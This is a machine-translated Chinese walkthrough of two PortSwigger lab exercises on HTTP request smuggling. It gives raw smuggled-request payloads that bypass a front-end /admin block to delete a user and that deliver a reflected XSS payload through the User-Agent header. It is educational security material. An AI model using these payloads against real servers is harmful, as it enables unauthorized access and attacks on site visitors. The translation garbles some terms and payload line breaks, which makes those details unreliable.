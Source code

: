 # HTTP 请求走私解释和利用第 0x3 部分

> 原文：<https://infosecwriteups.com/http-request-smuggling-explained-and-exploited-part-0x3-b61623287603?source=collection_archive---------1----------------------->

嗨！我叫 Hashar Mujahid，今天我们将继续讨论什么是 HTTP 请求走私漏洞，以及我们如何利用它们。

![](img/bb2f0bacdb7ae89d69dab449b62b0f3d.png)

来自 securitybot.io 的 Img

嗨，今天我们将讨论如何使用 HTTP 请求走私方法绕过前端安全措施。

如果你不知道什么是 HTTP 请求走私，我推荐你阅读我在这个系列的前 2 篇博客。

[](/http-request-smuggling-explained-and-exploited-part-0x1-89ce2956534f) [## HTTP 请求走私解释和利用第 0x1 部分

### 嗨！我的名字是 Hashar Mujahid，今天我们将先睹为快请求走私漏洞。

infosecwriteups.com](/http-request-smuggling-explained-and-exploited-part-0x1-89ce2956534f) [](/http-request-smuggling-explained-and-exploited-part-0x2-7768d04883fb) [## HTTP 请求走私解释和利用第 0x2 部分

### 嗨！我叫 Hashar Mujahid，今天我们将继续讨论什么是 HTTP 请求走私漏洞…

infosecwriteups.com](/http-request-smuggling-explained-and-exploited-part-0x2-7768d04883fb) 

现在我们将从我们停止的地方继续！

安全控制可以在应用程序的前端和后端实现。让我们考虑一个场景，应用程序的前端由于这个验证而阻止用户访问某些目录`/admin`。开发人员没有在后端进行任何验证，所以如果攻击者以某种方式绕过了前端安全性，后端会用对请求的响应来回应他。

```
POST /home HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 62 
Transfer-Encoding: chunked  0  
GET /admin HTTP/1.1 
Host: vulnerable-website.com 
Foo: xGET /home HTTP/1.1 
Host: vulnerable-website.com
```

前端服务器在这里看到两个请求，都是针对`/home`的，因此请求被转发到后端服务器。然而，后端服务器看到一个对`/home`的请求和一个对`/admin`的请求。它(像往常一样)假设请求已经通过了前端控件，因此授予对受限 URL 的访问权限。

在第 2 部分中，我们使用 CL 绕过了安全控制。TE 攻击。现在我们将使用 TE 绕过安全控制。CL 攻击。

## [实验室:利用 HTTP 请求走私绕过前端安全控制，TE。CL 漏洞:](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)

本实验涉及前端和后端服务器，后端服务器不支持分块编码。在`/admin`有一个管理面板，但是前端服务器屏蔽了对它的访问。

为了解决这个问题，向访问管理面板并删除用户`carlos`的后端服务器发送一个请求。

**解决方案:**

在实验室描述中，明确表示前端支持`transfer encoding: chunked`但后端服务器不支持。所以进入实验室，把请求发送到打嗝中继器。

![](img/598bcab9b87b7d877725adce193b8a93.png)

将请求方法更改为 POST 并删除不必要的头。

![](img/126df0e8c61d29e3a077aeefa854c998.png)

现在我们需要添加我们的传输编码头。另外，不要忘记添加尾随的新行。

我们可以看到我们得到了 200 ok 响应，现在我们只需要想出一种方法来请求`/admin`，由于安全控制，我们不能从前端访问它。

“确保在中继器中禁用更新内容长度”

下一步是在 POST 请求的主体中创建一个对/admin 的 Get 请求。

```
**60 ==> SIZE OF OUR CHUNKED DATA**
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15x=1
0
```

![](img/51b54be808771ce45136833267044d4d.png)

我们可以看到管理面板只对本地主机可用。为了避免这种情况，我们需要添加另一个值为

有效载荷:

```
71
POST /admin HTTP/1.1
HOST: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15x=1
0
```

![](img/cc35ade6a59d32a7c343668dcfc055c1.png)

现在我们只需要删除 Carlos 用户。

![](img/50efa0b0e4343c9d8c1e92646ba4253f.png)

```
87 GET /admin/delete?username=carlos HTTP/1.1 
Host: localhost 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 15 x=1 
0
```

该有效负载将删除 Carlos 用户。

现在，让我们看看如何利用这个漏洞在受害者的浏览器中诱发 XSS。

## [利用 HTTP 请求走私送映 XSS](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss)

本实验涉及前端和后端服务器，前端服务器不支持分块编码。

该应用还容易受到通过`User-Agent`报头[反射的 XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) 的影响。

为了解决这个实验，偷偷向后端服务器发送一个请求，使下一个用户的请求收到一个响应，该响应包含一个执行`alert(1)`的 XSS 漏洞。

解决方案:

我们可以看到前端服务器不支持分块编码，因此我们不必更新分块数据的大小。我们去实验室吧。

我们的博客中有一个查看博客功能，让我们访问查看博客链接，并将此请求发送到中继器。

![](img/d33209dad84502dd1aff2febdf7249fd.png)![](img/21e55c9a7165c3e10c393d4835893231.png)

我们可以看到我们的用户代理价值，让我们尝试诱导一个 self-xss，看看它是否可行。

![](img/9978596267560ef405fbde34b6831ff8.png)![](img/13302ae0cfe0fb9b3b78d74434dd7a3c.png)

只要它是自我 XSS 它的影响是非常低的让我们试着找到一种方法来反映它在受害者的浏览器。

现在点击主页，将这个请求发送给打嗝中继器。

*   更改请求方法
*   移除多余的标题
*   添加`Transfer-Encodind: chunked`
*   添加有效负载

![](img/b782fc412081dd9774e7c97180d1f28c.png)

现在，我们需要将之前的请求转移到我们发现 XSS 的地方。

```
0GET /post?postId=4 HTTP/1.1
Host: 0a1e00a504b50ac2c0a3b239009400f4.web-security-academy.net
User-Agent: "><img src=1 onerror=prompt(1)>
Content-Length: 5x=1
```

将上述有效载荷添加到我们的请求中。发送请求。当受害者访问它时，XSS 就会触发。

![](img/31c692217d68508910e764549b58ec2a.png)

我们的实验室就解决了。

我们了解了如何将两个不同的漏洞联系起来，并提高我们发现的影响。

在下一篇博客中，我们将看到更多利用 HTTP 请求走私的技术。

在那之前，快乐的黑客❤！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！